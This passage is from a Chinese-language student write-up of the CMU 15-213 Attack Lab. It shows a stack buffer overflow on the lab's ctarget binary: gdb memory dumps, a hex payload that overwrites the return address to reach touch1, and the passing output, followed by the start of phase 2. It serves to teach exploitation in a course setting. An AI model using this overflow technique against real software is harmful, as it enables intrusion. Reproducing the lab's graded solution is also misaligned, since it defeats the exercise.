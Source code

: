 ```asm
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
我们可以看到首先给%rdi分配了0x28大小的空间，这一部分就是给buf分配空间，然后传入gets函数，调用结束后释放空间准备返回。于是我们输入的字符串就应该超过这一大小，将放回指令覆盖掉，以达到返回至touch1函数的效果。
打上断点调试一下
```common
(gdb) x/30x $rsp
0x5561dc78:	0x33323130	0x00003534	0x00000000	0x00000000
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x55586000	0x00000000	0x00401976	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
0x5561dcc8:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dcd8:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dce8:	0xf4f4f4f4	0xf4f4f4f4
```
我们可以看到0x00401976存储了返回的地址，这段地址在距离栈顶0x28的位置。由于x86体系采用小端法存储，所以低位会存储在低字节。那么也就是说，前面的0x28个位置都不重要了！重要的是后面0x8字节的位置。
所以直接构造这样一个字符串(利用实验给出的hex2raw)
```txt
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff c0 17 40 00 00 00 00 00
```
特别的，要注意大小端存放的顺序，注意实验指导书中使用hex2raw的例子。保存为level1.txt,进行实验.
```common
➜  target1 ./hex2raw<level1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF C0 17 40 00 00 00 00 00
```
可以看到顺利通过了实验。
#### phase_2
实验2类似与实验１，给出了touch2函数的c实现。
```cpp
void touch2(unsigned val)
{
  vlevel = 2;/* Part of validation protocol */
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```
但与实验1不同的是，这个实验要求必须将cookies作为参数传入touch2。此实验的难点在于如何插入一段自己的代码。我们仔细观察一下getbuf的汇编代码，思考解决问题的办法。
```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
```